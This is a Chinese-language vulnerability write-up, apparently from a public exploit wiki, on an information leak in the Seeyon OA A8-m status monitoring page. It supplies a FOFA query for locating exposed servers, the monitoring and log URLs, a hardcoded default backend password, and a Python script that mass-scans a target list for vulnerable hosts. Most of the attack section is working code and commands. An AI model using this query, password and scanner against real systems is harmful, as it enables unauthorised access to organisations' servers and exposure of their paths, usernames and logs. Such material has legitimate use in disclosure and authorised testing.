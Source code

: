 # 致远OA A8 状态监控页面信息泄露

## 漏洞描述

致远OA A8-m 存在状态监控页面信息泄露，攻击者可以从其中获取网站路径和用户名等敏感信息进一步攻击

## 漏洞影响

> [!NOTE]
>
> 致远OA A8-m

## FOFA

> [!NOTE]
>
> title="A8-m"

## 漏洞复现

访问监控页面

```
http://xxx.xxx.xxx.xx/seeyon/management/status.jsp
```

![](image/zhiyuan-32.png)

后台密码为 **WLCCYBD@SEEYON**

登录后通过如下url获得一些敏感信息

```
/seeyon/management/status.jsp
/seeyon/logs/login.log
/seeyon/logs/v3x.log
```

![](image/zhiyuan-33.png)

![](image/zhiyuan-34.png)

![](image/zhiyuan-35.png)

## 漏洞利用POC

> [!NOTE]
>
> 多个目标

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 致远OA A6                                                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/seeyon/management/index.jsp"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if response.status_code == 200 and "Password" in response.text:
            print("\033[32m[o] 目标 {} 存在后台监控地址{}，默认密码为: WLCCYBD@SEEYON\033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def Scan(file_name):
    with open(file_name, "r", encoding='utf8') as scan_url:
        for url in scan_url:
            if url[:4] != "http":
                url = "http://" + url
            url = url.strip('\n')
            try:
                POC_1(url)

            except Exception as e:
                print("\033[31m[x] 请求报错 \033[0m".format(e))
                continue

if __name__ == '__main__':
    title()
    file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
    Scan(file_name)
```



![](image/zhiyuan-36.png)

## Goby & POC

> [!NOTE]
>
> Seeyon OA A8-m Information leakage

![](image/zhiyuan-43.png)